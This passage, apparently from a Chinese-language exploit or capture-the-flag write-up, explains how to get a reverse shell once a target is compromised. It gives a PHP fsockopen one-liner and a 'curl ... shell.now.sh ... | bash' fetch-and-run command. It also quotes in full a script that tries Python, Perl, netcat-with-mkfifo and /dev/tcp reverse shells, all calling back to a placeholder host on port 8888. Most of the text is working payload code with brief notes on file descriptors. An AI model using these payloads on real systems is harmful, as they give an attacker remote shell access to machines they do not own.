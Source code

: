 反弹shell之后还要跟一个程序进行交互才可以，这里也不分析方法了，不过提一下各种反弹shell方法的说明：

## 反弹shell

- [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)
- [Linux反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)

### php

```bash
"php -r '$sock=fsockopen(\"x.x.x.x\",8888);exec(\"bash -i <&3 >&3 2>&3\");'\x00"
```

```php
<?php
$sock=fsockopen("x.x.x.x",8888);
exec("bash -i <&3 >&3 2>&3");
?>
```
- 使用php -r直接执行php代码
- php使用fsockopen打开了一个连接到我们主机的流，因为是一个新的进程，所以对应的文件描述符是3
- 然后执行bash，将bash的输入输出和错误都定向到我们主机上：[Bash 中的 ＆ 符号和文件描述符](https://zhuanlan.zhihu.com/p/58419951)

### shell.now.sh

```bash
"curl https://shell.now.sh/x.x.x.x:8888|bash\x00"
```

打开这个网页发现，就是尝试用各种方法去反弹shell

```bash
# Reverse Shell as a Service
# https://github.com/lukechilds/reverse-shell
#
# 1. On your machine:
#      nc -l 1337
#
# 2. On the target machine:
#      curl https://shell.now.sh/yourip:1337 | sh
#
# 3. Don't be a dick

if command -v python > /dev/null 2>&1; then
	python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("x.x.x.x",8888)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
	exit;
fi

if command -v perl > /dev/null 2>&1; then
	perl -e 'use Socket;$i="x.x.x.x";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	exit;
fi

if command -v nc > /dev/null 2>&1; then
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8888 >/tmp/f
	exit;
fi

if command -v sh > /dev/null 2>&1; then
	/bin/sh -i >& /dev/tcp/x.x.x.x/8888 0>&1
	exit;
```